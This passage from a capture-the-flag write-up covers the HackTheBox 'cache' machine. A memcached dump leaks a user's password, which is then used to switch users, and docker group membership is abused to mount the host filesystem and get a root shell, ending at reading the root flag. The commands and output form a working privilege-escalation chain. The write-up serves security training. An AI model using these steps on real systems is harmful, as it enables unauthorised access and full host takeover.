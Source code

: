 ```md
 file     "VALUE file 0 7\r\nnothing\r\nEND\r\n"
 passwd   "VALUE passwd 0 9\r\n0n3_p1ec3\r\nEND\r\n"
 user     "VALUE user 0 5\r\nluffy\r\nEND\r\n"

[+] 10.10.10.188:11111    - memcached loot stored at /home/kali/.msf4/loot/20200917093828_default_10.10.10.188_memcached.dump_842689.txt
[*] cache.htb:11111       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
The cache contains luffy’s credentials: *luffy:0n3_p1ec3*

---
## Lateral move (ash->luffy)
Let’s switch to *luffy*:
```md
ash@cache:~$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/home/ash$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```
---
## Privesc (docker)
*luffy* is member of the docker group, and there is an *ubuntu* image available:
```md
luffy@cache:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
```
Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) reveals that we can escalate our privileges using docker.
```md
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@b09d72fb07c1:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
---
## Root flag
Now that we have successfully escalated our privileges, let’s get the root flag:
```md
root@b09d72fb07c1:/# cat /root/root.txt
cat /root/root.txt
```
